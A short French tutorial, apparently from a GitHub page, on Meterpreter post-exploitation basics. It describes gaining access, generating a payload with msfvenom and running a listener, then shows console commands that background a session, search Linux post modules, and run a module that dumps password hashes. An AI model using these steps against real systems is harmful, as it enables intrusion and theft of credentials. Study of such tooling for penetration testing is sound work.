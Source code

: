 # Les bases d'une session meterpreter

Pour arriver à avoir une session meterpreter, il faut d'abord avoir un accès à la machine cible. Pour cela, il faut exploiter une faille de sécurité, ou utiliser un mot de passe trouvé par bruteforce ou par social engineering. 
Ensuite, il faut générer une payload avec msfvenom, et l'envoyer sur la machine cible.
Enfin, il faut lancer un listener sur la machine attaquante, et attendre que la victime se connecte.

## Les commandes de base

Une fois que la victime s'est connectée, on peut utiliser les commandes de base de meterpreter.

Le mieux est de passer la session meterpreter en arrière plan, pour pouvoir utiliser les commandes de msfconsole en même temps.

```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > 
```

Ensuite on peut chercher les modules de post exploitation disponibles.

```bash
msf6 exploit(multi/handler) > search post/linux
```

Une fois le module trouvé, on peut retourner dans la session meterpreter, et lancer le module.

```bash
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > run post/linux/gather/hashdump
```

